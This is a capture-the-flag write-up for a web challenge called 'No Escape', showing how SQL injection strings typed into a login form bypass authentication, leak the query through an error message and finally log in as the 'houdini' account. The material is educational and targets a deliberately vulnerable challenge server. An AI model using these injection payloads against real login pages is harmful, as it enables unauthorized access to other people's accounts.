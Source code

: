 ## [60] No Escape (Web Security)

### Prompt:
Since in-person events are currently banned, some magician we've never heard of is trying to sell us on the idea of a "digital" magic show where the magician logs in using an impossible password. For added assurances, one lucky audience member is able to login and see the hash of the password as proof the password is impossible. We're willing to bet the secret to this magic trick is not all that complicated. http://challenge.acictf.com:28896. (NOTE: Your port may be different)

### Initial Analysis:
Visiting http://challenge.acictf.com:28896 directs us to a login page.

------------------LOGIN PAGE-------------------
No Escape

Houdini was famous for getting out of things without a key. Now a clever Internet magician has devised their latest trick of logging into a website without a valid password...
Username: 	
Password: 
[Login button]	
------------------LOGIN PAGE-------------------

It looks like we'll have some fun with SQLi and hashes!

### Solution:
Sure enough, if we type `' OR 1=1-- ` into both the Username and Password fields, we get the admin page - but that's not the end.

------------------ADMIN PAGE-------------------
No Escape
[Logout button]
Welcome admin! The "hash" for account 'houdini' is 'Not a hash'.
------------------ADMIN PAGE-------------------

So, we should navigate back to the login page and investigate the 'houdini' account.

When we type in

Username: `houdini`
Password: `' OR 1=1-- `

we get the error message "Login failed!"

So, let's try avoiding password altogether:

Username: `houdini' OR 1=1-- `
Password: `blahblahblah`

This throws us back into the admin account, so we'll have to get more creative.  Since this SQL Query most likely follows the structure `SELECT username FROM users WHERE username=foo and password=bar`, we can manipulate the structure by getting ahead of the structure:

Username: `houdini' and password='' or 1=1-- `
Password: `blah`

First success ~~~ the page threw back this error!

------------------LOGIN PAGE-------------------
No Escape

Houdini was famous for getting out of things without a key. Now a clever Internet magician has devised their latest trick of logging into a website without a valid password...
Username: 	
Password: 	
[Login button]
Login failed!

Oops! It looks like the following query caused an error...
`SELECT username FROM users WHERE username = 'houdini' and password='' or 1=1-- ' AND pwHash = '8b7df143d91c716ecfa5fc1730022f6b421b05cedee8fd52b1fc65a96030ad52'`
------------------LOGIN PAGE-------------------

Nice!  We've confirmed the structure and found out where (and how) to put "Not a hash".  The validation is only Username and pwHash in the query, so let's type in

Username: `houdini' AND pwHash='Not a hash'-- `
Password: `doesntmatter`

We get the flag when we click Login!

------------------FLAG  PAGE-------------------
No Escape

Welcome Houdini, here's your flag: ACI{redacted}
------------------FLAG  PAGE-------------------

END
